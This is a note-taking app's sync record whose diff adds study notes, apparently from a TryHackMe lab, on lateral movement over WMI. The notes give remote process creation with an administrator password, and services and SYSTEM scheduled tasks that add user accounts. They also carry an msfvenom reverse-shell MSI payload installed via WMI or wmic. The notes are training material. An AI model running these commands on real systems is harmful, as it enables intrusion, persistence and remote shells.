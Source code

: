 id: 9ade66dde7c14b9eb95aaef8567cef55
parent_id: 0b842a4e8eb14e98b8b6e0e83f1a29cd
item_type: 1
item_id: 155e394b578a4f6287b9927a325c5eaa
item_updated_time: 1658222951336
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"orts 135\"],[1,\" (RPC)\"],[0,\", 5985/5\"]],\"start1\":704,\"start2\":704,\"length1\":16,\"length2\":22},{\"diffs\":[[0,\"P/HTTPS)\"],[1,\", and Administrator\\\n\\\nDone by sending a WMI request to the Win32_Process class to spawn the process under the session we created before\\\n\\\n`$Command = \\\"powershell.exe -Command Set-Content -Path C:\\\\text.txt -Value munrawashere\\\"; Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{ CommandLine = $Command }`\\\n\\\nThere will be no output printed out after running. If the machine does not have powershell, we can do the same with **wmic.exe**\\\n\\\n`wmic.exe /user:Administrator /password:Mypass123 /node:TARGET process call create \\\"cmd.exe /c payload.exe\\\"`\\\n\\\n# Remote Service Creation (WMI)\\\n\\\nRequires Ports 135, 5985/5986 (WinRM HTTP/HTTPS), and Administrator\\\n\\\nMethod to create a service\\\n\\\n`Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{ Name = \\\"THMService2\\\"; DisplayName = \\\"THMService2\\\"; PathName = \\\"net user munra2 Pass123 /add\\\"; # Your payload ServiceType = [byte]::Parse(\\\"16\\\"); # Win32OwnProcess : Start service in a new process StartMode = \\\"Manual\\\" }`\\\n\\\nWe can then start the service by getting a handle on it\\\n\\\n`$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter \\\"Name LIKE 'THMService2'\\\" Invoke-CimMethod -InputObject $Service -MethodName StartService`\\\n\\\nWe can control whether to stop or delete the service too\\\n\\\n`Invoke-CimMethod -InputObject $Service -MethodName StopService Invoke-CimMethod -InputObject $Service -MethodName Delete`\\\n\\\n# Create Scheduled Tasks Remotely (WMI)\\\n\\\nRequires Ports 135 (RPC), 5985/5986 (WinRM HTTP/HTTPS), and Administrator\\\n\\\nCreation of scheduled tasks\\\n\\\n`# Payload must be split in Command and Args`\\\n\\\n`$Command = \\\"cmd.exe\\\"`\\\n\\\n`$Args = \\\"/c net user munra22 aSdf1234 /add\\\"`\\\n\\\n`$Action = New-ScheduledTaskAction -CimSession`\\\n\\\n`$Session -Execute $Command -Argument $Args Register-ScheduledTask -CimSession $Session -Action $Action -User \\\"NT AUTHORITY\\\\SYSTEM\\\" -TaskName \\\"THMtask2\\\" Start-ScheduledTask -CimSession $Session -TaskName \\\"THMtask2\\\"`\\\n\\\nDeletion of scheduled tasks\\\n\\\n`Unregister-ScheduledTask -CimSession $Session -TaskName \\\"THMtask2\\\"`\\\n\\\n# Install MSI Packages (WMI)\\\n\\\nRequires Ports 135 (RPC), 5985/5986 (WinRM HTTP/HTTPS), and Administrator\\\n\\\nPayload can be generated through msfvenom\\\n\\\n> msfvenom -p windows/shell\\\\_reverse\\\\_tcp LHOST=10.x.x.x LPORT=4444 –f msi > install.msi\\\n\\\nMethod to launch the msi file in Powershell\\\n\\\n> `Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = \\\"C:\\\\Windows\\\\myinstaller.msi\\\"; Options = \\\"\\\"; AllUsers = $false}`\\\n\\\nIf legacy, can use **wmic.exe**\\\n\\\n> `wmic /node:TARGET /user:DOMAIN\\\\USER product call install PackageLocation=c:\\\\Windows\\\\myinstaller.msi`\"]],\"start1\":740,\"start2\":740,\"length1\":8,\"length2\":2685}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-07-19T09:37:16.134Z
created_time: 2022-07-19T09:37:16.134Z
type_: 13